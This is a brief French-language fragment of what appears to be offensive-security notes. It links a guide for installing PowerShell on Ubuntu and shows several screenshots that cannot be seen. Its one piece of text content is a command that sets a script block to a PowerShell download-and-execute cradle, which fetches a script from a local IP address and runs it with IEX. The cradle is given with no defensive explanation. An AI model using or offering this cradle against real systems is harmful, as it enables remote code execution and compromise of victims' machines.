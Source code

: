 Installer Powershell sur Ubuntu: [https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell-core-on-linux?view=powershell-7](https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell-core-on-linux?view=powershell-7){:target="_blank"}

![5eef5c85a47e63221c9a4d15831039fc.png](/img/08111477dc5146fa95262877acb0dd9d.png)

`set SCRIPTBLOCK IEX ((new-object net.webclient).downloadstring('http://192.168.1.94:80/a'))`

![4786bc9669113a27c2ed8614a6d32b46.png](/img/df80a3d22810499eb5ab316ac60b7f5f.png)

![98a3a7aae360348375cd3e4d00811642.png](/img/941eba218d6f48bfb5468c71a6499cd1.png)
